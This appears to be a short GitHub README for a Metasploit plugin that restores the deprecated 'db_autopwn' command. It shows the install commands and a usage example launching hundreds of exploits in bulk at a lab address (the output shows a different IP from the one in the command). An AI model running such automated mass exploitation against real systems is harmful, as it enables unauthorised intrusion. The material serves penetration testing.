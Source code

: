 # metasploit-db_autopwn

metasploit plugin for easy exploit & vulnerability attack.<br>
But, the db_autopwn command is removed from official distribution.<br>

## Install
move dB_autopwn.rb file into metasploit plugin directory after clone this repo<br>

    git clone https://github.com/hahwul/metasploit-db_autopwn


<br>
or <br>
<br>
download db_autopwn.rb file in metasploit plugin directory

    wget https://raw.githubusercontent.com/hahwul/metasploit-db_autopwn/master/db_autopwn.rb

## Usage

    #> msfconsole
    MSF > load db_autopwn
    [*] Successfully loaded plugin: db_autopwn
    
    MSF > db_autopwn -p -R great -e -q 192.168.56.101 
    [-] The db_autopwn command is DEPRECATED
    [-] See http://r-7.co/xY65Zr instead
    [*] (1/1301 [0 sessions]): Launching exploit/bsdi/softcart/mercantec_softcart against 192.168.56.44:80...
    [*] (2/1301 [0 sessions]): Launching exploit/freebsd/http/watchguard_cmd_exec against 192.168.56.44:80...
    [*] (3/1301 [0 sessions]): Launching exploit/linux/antivirus/escan_password_exec against 192.168.56.44:80...
    [*] (4/1301 [0 sessions]): Launching exploit/linux/http/accellion_fta_getstatus_oauth against 192.168.56.44:80...
    [*] (5/1301 [0 sessions]): Launching exploit/linux/http/advantech_switch_bash_env_exec against 192.168.56.44:80...



